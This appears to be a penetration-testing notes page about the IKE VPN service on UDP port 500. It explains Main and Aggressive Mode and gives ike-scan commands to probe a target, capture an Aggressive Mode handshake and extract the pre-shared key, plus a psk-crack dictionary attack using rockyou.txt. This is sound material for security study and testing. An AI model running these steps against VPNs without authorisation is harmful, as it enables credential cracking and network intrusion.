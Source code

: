 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 500 - IKE

The **Internet Key Exchange (IKE)** service on UDP port `500` is **used to set up and negotiate secure IPsec VPN connections**. It handles key exchange, authentication, and security policy negotiation between two endpoints before any actual encrypted data is sent. We can use [`ike-scan`](https://www.kali.org/tools/ike-scan/) to probe the VPN server and determine its supported IKE modes:

{% code overflow="wrap" %}
```bash
# Probe IKE service on the target
$ ike-scan <target-host>
```
{% endcode %}

IKE operates in two modes:

* **Main Mode**: Six messages are exchanged to protect peer identities. It is preferred for production VPNs due to security.
* **Aggressive Mode**: Only three messages are exchanged, making it faster but revealing the client’s identity. This mode is useful in lab environments or penetration tests for capturing information like PSKs.

If the latter mode is enabled, capturing its handshake will lets us extract the PSK and perform offline cracking:

{% code overflow="wrap" %}
```bash
# Check for Aggressive Mode support and capture client identity
$ sudo ike-scan -A <target-host>
```
{% endcode %}

If we are able to capture the handshake from the Aggressive Mode, we can generate a `.psk` hashfile for offline cracking using [`psk-crack`](https://www.kali.org/tools/ike-scan/#psk-crack):

{% code overflow="wrap" %}
```bash
# Generate file for PSK cracking
sudo ike-scan -A <target-host> --id=x7331@kali.com -Pike.psk

# Run dictionary attack to recover PSK
$ psk-crack ike.psk -d /usr/share/wordlists/rockyou.txt
```
{% endcode %}
